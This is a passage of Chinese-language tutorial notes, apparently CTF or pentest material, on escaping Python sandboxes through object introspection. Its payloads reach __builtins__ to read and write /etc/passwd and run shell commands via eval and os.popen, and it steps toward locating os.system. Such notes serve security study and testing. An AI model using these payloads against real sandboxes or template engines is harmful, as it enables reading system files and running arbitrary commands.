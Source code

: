 查看其引用 `__builtins__`

```
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']
```

读写文件

```
#读
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['file']('/etc/passwd').read()
#写
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['file']('/etc/passwd').write()

#若存在子模块,可以直接调用读写文件
[].__class__.__base__.__subclasses__()[40]('/etc/passwd').read()
[].__class__.__base__.__subclasses__()[40]('/etc/passwd').write()
```

## 0x02命令执行

### 利用eval 进行命令执行

```
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("whoami").read()')
```

### 利用warnings.catch_warnings 进行命令执行

查看`warnings.catch_warnings`方法的位置

```
>>> [].__class__.__base__.__subclasses__().index(warnings.catch_warnings)59
```

查看`linecatch`的位置

```
>>> [].__class__.__base__.__subclasses__()[59].__init__.__globals__.keys().index('linecache')25
```

查找`os`模块的位置

```
>>> [].__class__.__base__.__subclasses__()[59].__init__.__globals__['linecache'].__dict__.keys().index('os')12
```

查找`system`方法的位置(在这里使用`os.open().read()`可以实现一样的效果,步骤一样,不再复述)

```
>>> [].__class__.__base__.__subclasses__()[59].__init__.__globals__['linecache'].__dict__.values()[12].__dict__.keys().index('system')144
```

调用`system`方法
